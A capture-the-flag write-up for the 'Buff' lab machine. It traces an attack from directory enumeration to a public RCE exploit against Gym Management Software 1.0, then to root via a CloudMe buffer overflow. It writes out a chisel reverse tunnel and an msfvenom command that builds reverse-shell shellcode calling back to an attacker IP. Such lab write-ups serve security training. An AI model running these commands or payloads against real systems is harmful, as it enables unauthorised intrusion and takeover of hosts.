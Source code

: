 # Buff

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (16) (4) (2).png" alt=""><figcaption></figcaption></figure>

### Gym

On port 8080, it was a gym-related page:

<figure><img src="../../../.gitbook/assets/image (9) (2) (5).png" alt=""><figcaption></figcaption></figure>

We can use `gobuster` on the website to find more directories:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the `contact.php` file, we see the software used to make this.

<figure><img src="../../../.gitbook/assets/image (13) (2) (4).png" alt=""><figcaption></figcaption></figure>

Then, we can search for exploits for this Gym Management Software 1.0.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

We can try the RCE exploit:

{% embed url="https://www.exploit-db.com/exploits/48506" %}

By running the exploit, we would gain a webshell:

<figure><img src="../../../.gitbook/assets/image (164) (3).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell via nc.exe or Powershell is trivial.

## Privilege Escalation

### CloudMe

When enumerating the user's directory, we find a CloudMe\_1112.exe file:

<figure><img src="../../../.gitbook/assets/image (4) (4) (3).png" alt=""><figcaption></figcaption></figure>

When checking for exploits regarding CloudMe, we can find a few Buffer Overflow exploits that can be used for RCE using shellcode.

<figure><img src="../../../.gitbook/assets/image (15) (4).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.exploit-db.com/exploits/48389" %}

CloudMe for this machine runs on port 8888 on this machine, so we can just run it and use chisel to port forward port 8888.

```bash
# on Kali
chisel server --port 4444 --reverse

# on host
.\chisel.exe 10.10.16.9:4444 R:8888:localhost:8888
```

Then, we need to generate new shellcode for the exploit:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
{% endcode %}

Afterwards, we can simply run the exploit and it would spawn a root shell on the listener port.
